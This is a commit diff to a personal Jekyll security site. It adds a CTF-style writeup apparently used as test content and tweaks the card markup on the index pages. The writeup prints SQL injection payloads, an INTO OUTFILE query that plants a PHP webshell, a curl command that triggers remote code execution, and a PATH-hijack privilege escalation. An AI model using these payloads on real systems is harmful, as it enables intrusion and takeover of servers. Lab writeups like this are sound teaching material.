

Before and after one commit to erik-dzibela/erik-dzibela.github.io, a Jekyll site: the page built from writeups/index.html, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
section additions

````diff
--- /dev/null
+++ b/_writeups/2025-03-15-TEST.md
@@ -0,0 +1,64 @@
+---
+title: "SQL Injection to RCE"
+date: 2024-03-15
+event: "PicoCTF 2024"
+category: "web"
+difficulty: "Medium"
+points: 350
+solves: 142
+flag: "picoCTF{sql_2_rce_ez_mode_a1b2c3}"
+description: "Exploiting a blind SQL injection vulnerability to leak credentials, then chaining it with a file write primitive to achieve remote code execution."
+tags: [web, sqli, rce]
+---
+
+## Overview
+
+The challenge presented a login portal running on MySQL. After initial recon we identified a classic blind SQL injection in the `username` parameter. The real fun started when we found file write privileges enabled via `secure_file_priv`.
+
+## Enumeration
+
+Starting with a basic boolean-based payload to confirm injectable:
+
+```sql
+' OR 1=1-- -
+```
+
+Response changes confirmed injection. Next, enumerate the database version:
+
+```sql
+' AND SUBSTRING(VERSION(),1,1)='5'-- -
+```
+
+## Exploitation
+
+With file write confirmed, we dropped a PHP webshell:
+
+```sql
+' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
+```
+
+Then triggered RCE:
+
+```bash
+curl "http://target/shell.php?cmd=id"
+# uid=33(www-data) gid=33(www-data)
+```
+
+## Privilege Escalation
+
+From there, a quick SUID binary enum:
+
+```bash
+find / -perm -4000 2>/dev/null
+```
+
+Found a custom binary at `/opt/checker`. Reversed it with `strings` and noticed it called `system("cat /flag")` without a full path — classic PATH hijack.
+
+```bash
+export PATH=/tmp:$PATH
+echo '#!/bin/bash\ncat /root/flag.txt' > /tmp/cat
+chmod +x /tmp/cat
+/opt/checker
+```
+
+Flag captured.
--- a/tools/index.html
+++ b/tools/index.html
@@ -9,10 +9,12 @@ description: Open-source security tools and scripts I've built.
   <span class="section-count">{{ site.tools | size }} tools</span>
 </div>
 
+<section>
   <div class="cards-grid">
     {% assign sorted_tools = site.tools | sort: 'date' | reverse %}
     {% for tool in sorted_tools %}
-  <div class="card" onclick="window.location='{{ tool.url | relative_url }}'" style="cursor:pointer;">
+    <a href="{{ tool.url | relative_url }}" style="text-decoration:none;">
+      <div class="card">
         <div class="card-meta">
           {% if tool.language %}
           <span class="tag tag-cyan">{{ tool.language }}</span>
@@ -30,5 +32,7 @@ description: Open-source security tools and scripts I've built.
           {% endif %}
         </div>
       </div>
+    </a>
     {% endfor %}
   </div>
+</section>
--- a/writeups/index.html
+++ b/writeups/index.html
@@ -1,11 +1,11 @@
 ---
 layout: default
-title: CTF Writeups
-description: CTF challenge writeups covering web, pwn, reversing, crypto, and more.
+title: Writeups
+description: writeups
 ---
 
 <div class="section-header" style="margin-bottom: 40px;">
-  <h1 class="section-title" style="font-size: 1rem;">ctf writeups</h1>
+  <h1 class="section-title" style="font-size: 1rem;">writeups</h1>
   <span class="section-count">{{ site.writeups | size }} writeups</span>
 </div>
 
@@ -20,10 +20,12 @@ description: CTF challenge writeups covering web, pwn, reversing, crypto, and mo
   <span class="tag tag-default" style="cursor:pointer;">misc</span>
 </div>
 
+<section>
   <div class="cards-grid">
     {% assign sorted_writeups = site.writeups | sort: 'date' | reverse %}
     {% for writeup in sorted_writeups %}
-  <div class="card" onclick="window.location='{{ writeup.url | relative_url }}'" style="cursor:pointer;">
+    <a href="{{ writeup.url | relative_url }}" style="text-decoration:none;">
+      <div class="card">
         <div class="card-meta">
           {% if writeup.difficulty %}
           <span class="tag diff-{{ writeup.difficulty | downcase }}">{{ writeup.difficulty }}</span>
@@ -42,5 +44,7 @@ description: CTF challenge writeups covering web, pwn, reversing, crypto, and mo
           </span>
         </div>
       </div>
+    </a>
     {% endfor %}
   </div>
+</section>
````
Also changed, not shown: _tools/portknock.md (+1 -1 lines). Lines whose indentation alone changed are shown as unchanged.
